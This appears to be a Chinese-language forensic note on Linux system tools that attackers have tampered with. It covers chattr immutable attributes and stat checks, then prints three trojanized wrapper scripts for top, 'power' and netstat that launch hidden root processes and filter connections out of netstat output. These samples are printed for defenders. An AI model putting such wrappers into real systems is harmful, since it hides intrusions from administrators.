 被篡改的系统工具，被赋予了特殊权限ia，i：不能修改，保存设置其它链接关系，a：只能添加数据，不能删除。

chattr -ia 删除该文件特殊ia权限

![image.png](https://cdn.nlark.com/yuque/0/2023/png/27875807/1674885135496-0af8dcba-e444-423e-8115-fe6c78d08fea.png#averageHue=%232c3638&clientId=u8b88ba14-b50c-4&from=paste&height=445&id=u398d3e0f&name=image.png&originHeight=980&originWidth=512&originalType=binary&ratio=1&rotation=0&showTitle=false&size=756882&status=done&style=none&taskId=u3a9f7de6-e192-4ec6-9791-4106382cebf&title=&width=232.72726768304506)

stat查看文件修改创建等信息

![image.png](https://cdn.nlark.com/yuque/0/2023/png/27875807/1674885419761-bcdfe799-de0e-4396-8377-ec63f8a1e990.png#averageHue=%23374346&clientId=u8b88ba14-b50c-4&from=paste&height=115&id=ude882b1f&name=image.png&originHeight=254&originWidth=834&originalType=binary&ratio=1&rotation=0&showTitle=false&size=263667&status=done&style=none&taskId=uc977108f-845f-4c44-bfc4-7d750456292&title=&width=379.0909008743351)


攻击者可能会篡改系统自带的工具，将工具输出重定向，导致我们不能看到想看到的信息

比如：
```bash
#!/bin/sh
if [ "`whoami`" == "root"  ] ;then
sh -c "execute > /dev/null 2>&1 &"
fi
/usr/sbin/top
sh -c "flush > /dev/null 2>&1 &"
```

```bash
#!/bin/sh
isi="$1 $2 $3 $4 $5 $6 $7 $8 $9"; [ -z "$isi" ] && /usr/bin/power || /usr/bin/power $isi
if [ "`whoami`" != "root"  ] ;then
exit 0
fi
if test -r /bin/mouse; then
pid=$(cat /bin/mouse)
if $(kill -CHLD $pid >/dev/null 2>&1)
then
exit 0
fi
fi
sh -c "/bin/crond > /dev/null 2>&1 &"
sh -c "chmod 755 /bin/mouse > /dev/null 2>&1 &"
```

```bash

#!/bin/sh
if [ "`whoami`" == "root"  ] ;then
sh -c "chattr -ia /tmp > /dev/null 2>&1 &"
sh -c "chmod 777 /tmp > /dev/null 2>&1 &"
fi
isi="$1 $2 $3 $4 $5 $6 $7 $8 $9"; [ -z "$isi" ] && /usr/bin/netstatz || /usr/bin/netstatz $isi > /tmp/`whoami`.net
cat /tmp/`whoami`.net |grep --invert-match :20 |grep --invert-match :43 |grep --invert-match send |grep --invert-match dhcl |grep --invert-match sendmail:
rm -f /tmp/`whoami`.net
```

被恶意修改后的系统工具向外发出外联<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/27875807/1674885450641-61b5653a-0614-43c1-9d94-1c84f0659509.png#averageHue=%232f2832&clientId=u8b88ba14-b50c-4&from=paste&height=315&id=ua3860389&name=image.png&originHeight=692&originWidth=992&originalType=binary&ratio=1&rotation=0&showTitle=false&size=862805&status=done&style=none&taskId=ub3b5e23d-0baa-4130-9c55-37c2e671668&title=&width=450.9090811358998)
